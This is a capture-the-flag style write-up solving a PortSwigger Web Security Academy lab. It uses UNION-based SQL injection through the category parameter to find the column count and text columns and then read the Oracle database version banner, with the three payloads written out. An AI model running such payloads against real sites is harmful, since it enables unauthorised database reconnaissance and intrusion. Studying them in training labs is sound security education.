 ```yaml
---
title: 'Lab: SQL injection attack, querying the database type and version on Oracle'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection attack, querying the database type and version on Oracle
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 
* Our Goal: To solve the lab, display the database version string.

## Exp - [SQLi Cheat Sheet - Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)
According to the cheat sheet above, we can use the command to fetch the version of this database, e.g. 
![](https://i.imgur.com/Qxtgz5u.png)
:::warning
Before the recon, the hint told you that this database is created by `Oracle`. So, you must contained `From` preserved word in each query, e.g. `SELECT 'abc' FROM dual`
:::
1. Determine # of columns that are being returned by the query
Payload: `?category=Gifts' union select NULL,NULL from v$version--`

2. Which columns contain text data
Payload: `?category=Gifts' union select 'a','b' from v$version--`
Two of them are text data

3. Attack
Payload: `?category=Gifts' UNION SELECT BANNER,'abc' FROM v$version--`
    :::spoiler Result
    ![](https://i.imgur.com/KqhEhpV.png)
    :::

## Reference